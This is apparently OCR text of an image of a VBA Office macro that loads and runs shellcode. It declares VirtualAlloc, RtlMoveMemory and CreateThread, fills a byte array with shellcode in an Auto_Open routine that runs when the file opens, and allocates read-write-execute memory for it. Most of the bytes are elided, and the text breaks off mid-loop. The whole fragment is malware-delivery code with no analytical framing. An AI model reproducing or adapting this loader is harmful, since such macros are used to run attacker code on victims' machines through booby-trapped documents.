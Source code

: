 ```
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As LongPtr 

    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination  As LongPtr, _
        ByRef Source As Any, _
        ByVal Length As Long) As LongPtr

#Else
    Private Declare Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _
        ByVal lpStartAddress As Long, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _
        lpThreadId As Long) As Long

    Private Declare Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As Long

    Private Declare Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination As Long, _
        ByRef Source As Any, _
        ByVal Length As Long) As Long
#EndIf

Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40

Sub Auto_Open()
    Dim source As Long, i As Long
#If Vba7 Then
    Dim  lpMemory As LongPtr, lResult As LongPtr
#Else
    Dim  lpMemory As Long, lResult As Long
#EndIf

    Dim bShellcode(376) As Byte
        bShellcode(0) = 232
        bShellcode(1) = 255
        bShellcode(2) = 255
        bShellcode(3) = 255
        bShellcode(4) = 255
        bShellcode(5) = 192
        bShellcode(6) = 95
        bShellcode(7) = 185
        bShellcode(8) = 85
        bShellcode(9) = 3
        bShellcode(10) = 2
        bShellcode(11) = 2
        bShellcode(12) = 129
        bShellcode(13) = 241
        bShellcode(14) = 2
        bShellcode(15) = 2
        bShellcode(16) = 2
                .....................
lpMemory = VirtualAlloc(0, UBound(bShellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    For i = LBound(bShellcode) To UBound(bShellcode)
```